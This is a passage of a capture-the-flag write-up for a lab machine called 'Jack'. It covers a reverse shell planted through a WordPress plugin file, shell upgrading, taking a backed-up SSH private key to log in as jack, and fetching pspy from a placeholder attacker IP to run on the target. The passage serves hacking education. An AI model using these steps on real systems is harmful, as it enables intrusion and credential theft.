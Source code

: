 ![image](https://github.com/user-attachments/assets/54dd53b6-ca90-43be-9e0f-4a57265551c0)
![image](https://github.com/user-attachments/assets/1acacb40-45d8-49bc-9561-26d84c51d6b8)

Start listening for incoming connections, update the script, then go to the **Installed Plugins** and activate the `akismet.php` script.

![image](https://github.com/user-attachments/assets/df071390-ef23-4c98-9806-4b1d347a2678)


When you successfully gain a shell, it is better to run this command 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
This command upgrades the basic shell to a pseudo-terminal (PTY), which
   - Better command-line editing (arrow keys, backspace, tab completion)
   - The ability to use tools like su, passwd, nano, etc.
   - Better handling of interactive programs
- Follow up with this command
```bash
export TERM=xterm
```
Now you can cleanly use `clear`, `nano`,`vim`, `less`,`man`, and even arrow keys or tab completion more reliably.

![image](https://github.com/user-attachments/assets/15bfa8e7-ebb7-4e06-a282-43dc4178525b)


Cat the content of the `reminder.txt`, it has a reminder to check his backups. The backups on Linux are in this location: `/var/backups`

![image](https://github.com/user-attachments/assets/71cb9c79-7c6c-4063-a6d4-442473874859)


## Privilege Escalation:

We can see there is `id_rsa`, which is the private SSH key for a user on that system. Use it to authenticate the user to remote systems without a password. Copy the id_rsa file and SSH to the Jack machine

```bash
ssh -i id_rsa.txt jack@jack.thm
```
![image](https://github.com/user-attachments/assets/d88a112b-4fa9-4b0a-837f-200475f65947)


Now, how to gain root access? Let's first use the `pspy` tool to see all the processes running, including those run by other users (like root), without needing root access.
Download it from https://github.com/Cerbersec/scripts/blob/master/linux/pspy64, then transfer it to the target machine.

**on the attacker machine**
```bash
wget https://github.com/Cerbersec/scripts/blob/master/linux/pspy64
chmod +x pspy64
python3 -m http.server 8000

```
**on the target machine**
```bash
cd /tmp
wget http://<attacker-ip>:8000/pspy64
chmod +x pspy64
./pspy64
```
**output**
```bash
jack@jack:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
```